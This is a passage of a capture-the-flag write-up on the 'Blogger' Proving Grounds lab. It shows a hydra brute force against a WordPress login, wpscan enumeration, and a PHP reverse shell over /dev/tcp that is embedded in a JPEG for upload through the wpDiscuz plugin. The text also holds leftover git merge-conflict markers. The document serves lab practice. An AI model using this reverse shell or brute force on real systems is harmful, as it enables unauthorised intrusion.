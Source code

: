 When I try to test the login form with test credentials, it seems to revert back to `blogger.pg` domain. I think we can resolve this temporarily with ease:

```
sudo echo -e "$targ3t\tblogger.pg" >> /etc/hosts
```

Now it all works! Let's try to login with test credentials and obtain a raw POST request payload:

```
log=test&pwd=test&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblogger.pg%2Fassets%2Ffonts%2Fblog%2Fwp-admin%2F&testcookie=1
```

Now that we have this, we can craft a brute force command for `hydra` to try and check a possible password for user `j@m3s`.

```
hydra -t 12 -l j@m3s -P /usr/share/wordlists/rockyou.txt $targ3t http-post-form "/assets/fonts/blog/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A2F%2blogger.pg%2Fassets%2Ffonts%2Fblog%2Fwp-admin%2F&testcookie=1:F=ERROR" -V
```

This doesn't seem to be working as there is no password that matches this username from the `rockyou.txt` list. 

<<<<<<< HEAD
_<sub>Assisted by [write-up](https://cyberarri.com/2024/03/17/blogger-pg-play-writeup/):</sub>_

Let's try to use a `wpscan` as this is a wordpress website to see if there are any interesting plugins we could use:
=======
_<sup>Assisted by [write-up](https://cyberarri.com/2024/03/17/blogger-pg-play-writeup/):</sup>_ Let's try to use a `wpscan` as this is a wordpress website to see if there are any interesting plugins we could use:
>>>>>>> 973cb6a03a9300476055ac5dc831eb06761d7cb7

```
wpscan --url http://$targ3t/assets/fonts/blog -t 12 --plugins-detection aggressive -v -o wp.scan
```

In the identified plugins we can see `wpdiscuz`, which has a capability to upload comments and images. I'm wondering if I can upload a php reverse shell as an image and send a request to it:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'"); __halt_compiler(); ?>
```

I used the above code as a PHP reverse shell and I will try to inject it into a `boat.jpg` I have downloaded the following way:

```
jhead -ce boat.jpg
```

Now I will navigate to one of the blog posts on the blog:

```
firefox https://blogger.pg/assets/fonts/blog/?p=29
```
